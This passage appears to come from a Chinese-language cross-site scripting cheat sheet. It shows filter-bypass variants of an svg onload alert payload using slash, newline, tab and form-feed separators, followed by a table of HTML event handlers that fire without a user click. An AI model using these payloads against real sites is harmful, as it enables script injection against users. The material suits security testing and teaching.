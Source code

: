 ### Examples
基本上，如果有個 payload 像這樣:

```html
<svg onload=alert(1)>
```

你可以嘗試將 `svg` 和 `onload` 間的「空格」換成任何一個符號
- 這適用於所有 HTML tag
- 可以打開這 demo [valid html](https://netsec.expert/examples/valid-html.html) 測試

Forward slash (正斜線):
```html
<svg/onload=alert(1)><svg>
```

New line:
```html
<svg
onload=alert(1)><svg>
```


Tab:
```html
<svg	onload=alert(1)><svg>
```

New page `(0xC)` (`svg` 跟 `onlond` 之間有特殊符號。需要用能看特殊符號的編輯器才會標示出來):
```html
<svgonload=alert(1)><svg>
```

----------------

## JavaScript event 相關的 XSS

關於 events 和其支持的瀏覽器的 ref：
- [More HTML events](http://help.dottoro.com/ljfvvdnm.php)

### Standard HTML events
這邊列出標準 HTML events
- 只列出 `0-click only` (不需要 User 去點擊，就會自動觸發的 event)
  

| Tag Attribute | Tags supported | Note |
| :--- | :--- | :--- |
| onload | body, iframe, img, frameset, input, script, style, link, svg | 很適合 `0-click`，但通常會被過濾 |
| onpageshow | body | 很適合 `0-click`，但只適用於 Non-DOM injections |
| onfocus | input, select, a | 用在 `0-click`，與 `autofocus=""` 一起使用 |
| onerror | img, input, object, link, script, video, audio | 確保傳遞參數以使其失敗 |
| onanimationstart | 與任何可以製作動畫的 element 結合使用 | CSS animation starts 時觸發 |
| onanimationend | 與任何可以製作動畫的 element 結合使用 | CSS animation ends 時觸發|
| onstart | marquee | 在 marquee animation start 時觸發(限Firefox?) |
| onfinish | marquee | 在 marquee animation end 時觸發(限Firefox?) |
| ontoggle | details | 要 `0-click` 的話，必須要有 `open` 屬性 |

